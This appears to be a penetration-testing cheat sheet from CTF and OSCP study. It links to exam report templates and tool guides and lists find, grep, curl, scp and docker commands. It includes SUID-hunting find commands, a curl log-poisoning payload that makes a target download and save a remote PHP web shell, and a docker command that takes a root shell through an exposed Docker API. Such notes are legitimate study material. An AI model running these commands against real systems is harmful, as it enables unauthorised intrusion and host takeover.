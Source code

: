 > - https://github.com/qazbnm456/awesome-web-security


# Exam Report Template

> - https://github.com/whoisflynn/OSCP-Exam-Report-Template - (Exam Report Template)
> - https://github.com/noraj/OSCP-Exam-Report-Template-Markdown - (OSCP-Exam-Report-Template-Markdown)
> - https://www.notion.so/OSCP-Exam-Notes-EXAM_DATE-cb9d15436e4849339aaa35979d582735 -  (OSCP Exam Notes)
> - https://github.com/JohnHammond/oscp-notetaking  - (oscp note taking)

# Usage's

> - https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom - (How-to-use-msfvenom)
> - https://www.aircrack-ng.org/doku.php?id=airmon-ng  -  (airmong-ng usage)
> - https://dashboard.ngrok.com/get-started/setup  - (ngrok download and setup)
> - http://irtfweb.ifa.hawaii.edu/~lockhart/gpg/ - ( gpg cheatsheet)


#COMMANDS  
>[find, curl, sed, grep, scp, wfuzz, docker]



## FIND COMMAND

	find / -user root -perm -4000 -print 2>/dev/null
	find / -user root -perm -u=s 2>/dev/null
	find / -user archangel 2>/dev/null
	find / -perm -u=s -type f 2>/dev/null
	find / -type f -newermt "2021-02-15 19:00:00" ! -newermt "2021-02-16 20:00:00" -ls 2>/dev/null
	find / -name flag.txt -type f 2>/dev/null
	find / -user root -perm -4000 -executable -type f 2>/dev/null
## SED
    sed -n 148p /home/santa/naughty_list.txt   (read only 148th line contents)
    sed  (use to replace the string with other string or character)

## GREP
    grep thm{.*} -i *
    grep -r mission * .[^.]* 2>/dev/null

## OTHERS
    curl -A "<?php file_put_contents('shell.php', file_get_contents('http://10.8.94.78:8080/shell.php')); ?>" -s http://10.10.148.69   (send the file to other ip address or upload a file to the webiste using curl)

    scp gherkin@10.10.251.122:/home/gherkin/cmd_service.py .  (get files from other system through ssh)

    docker -H 10.10.171.188:2375 run -v /:/mnt --rm -it frontend chroot /mnt sh   (take shell from docker)
